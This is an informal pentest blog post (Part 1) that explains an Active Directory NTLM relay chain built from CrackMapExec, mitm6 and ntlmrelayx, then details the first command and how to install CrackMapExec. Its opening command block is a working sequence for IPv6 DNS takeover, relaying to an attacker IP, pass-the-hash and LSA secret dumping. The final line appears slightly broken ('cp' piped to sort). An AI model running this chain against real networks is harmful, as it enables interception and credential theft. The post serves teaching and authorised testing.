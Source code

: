 ```yaml
---
layout: post
title: the power of mitm6 and ntlmrelayx Part 1
subtitle: how on earth does this shit work?
bigimg: /img/tcp-ipv6.jpeg
tags: [network, ipv6, ntlmrelayx, pentest]
date: 2019-11-25
---
```


## Introduction

When undertaking a pentest engagement we rely heavily on the amazing tools and techniques that have been developed by those who have come before us.  Like the great go-to suites such as metasploit and Burp, or the amazing tools like Responder and crackmapexec, etc.

I recently came across this post from Paul Seekamp ([@nullenc0de](https://twitter.com/nullenc0de?lang=en)):

<p align="center">
<img src="{{site.url}}/img/2019-11-22-nullenc0de.png" alt="drawing" width="300" class="center"/>
</p>

Testing in a lab showed great results so I deployed it on a recent engagement and was amazed at how effective it was.

This post is to try and get my head firmly around the workings of the commands in the process, what they do, and how they work.  Hopefully along the way there might be something in this for my one reader as well.  I think there is a lot to go through so will seperate this in to a separate post for each line.

## Let's begin!

So...  We're editing in markdown here and so to give me something to refer back to while i'm typing, let's shovel out some backticks!

```
$ cme smb $hosts --gen-relay-list relay.txt
$ mitm6 -i eth0 -d $domain
$ ntlmrelayx.py -6 -wh $attacker_ip -of loot -tf relay.txt
$ cme smb $hosts -u Administrator  -H $hash -d LOCALHOST --lsa
$ cp /root/.cme/logs/*.secrets |sort -u
```


### Line 1 - `cme smb $hosts --gen-relay-list relay.txt`

OK first up let's break down this command string.

`cme` is the alias for CrackMapExec, a fantastic pentest tool created by [byt3bl33d3r](https://twitter.com/byt3bl33d3r?lang=en) ([CrackMapExec on GitHub](https://github.com/byt3bl33d3r/CrackMapExec)) featuring a collection of subcommands for attacking and enumerating network hosts.

Depending on your Linux distribution and your preffered method of installation you may find that cme is actually a completely different program in your repos.  Personally i tend to use Kali lite which has CME in the repos however it is version 3.x.x and the commands used above need a more recent version (?>4.0.0)which needed to be installed from the bleeding edge repo at time of writing.

This is the current bleeding edge install method for Linux.  I'd recommend checking the GitHub installation page for up to date instructions or for a different OS:

```
#~ apt-get install -y libssl-dev libffi-dev python-dev build-essential
#~ pip install --user pipenv
#~ git clone --recursive https://github.com/byt3bl33d3r/CrackMapExec
#~ cd CrackMapExec && pipenv install
#~ pipenv shell
#~ python setup.py install
```

`smb` tells CME which protocol to use.  At time of writing CME supports three documented protocols; HTTP, SMB and MSSQL.  If you're anything like me starting your cme command with `cme smb` will be common place.  The purpose of the CME SMB protocol, as per the official documentation, is to 'own stuff using SMB and/or Active Directory'.  The amount of features is incredible, I recommend checking them all out.

`$hosts` is a placeholder for your targets.  You can enter a single IP address, a network address with CIDR, a range of IP addresses, hostnames, FQDN's, or a target file.

`--gen-relay-list` - this command will scan all the targets and generate a list of all those that do not have SMB signing required.  For the uninitiated SMB signing is designed to secure SMB connections between hosts via digital signing, preventing MITM attacks.

`relay.txt` - this is just the output file for --gen-relay-list.

So to sum it all up this command will use CrackMapExec with the SMB protocol to enumerate a bunch of targets and check to see if they have SMB listening on port 445 and if so is SMB signing required?  A lit of all SMB hosts that do not have signing required is outputted to the `relay.txt` file.

### Wondering what's happening under the hood?

To get a more thorough understanding of the execution of this command I ran it through Wireshark (another fantastic tool) to see inside the kimono.

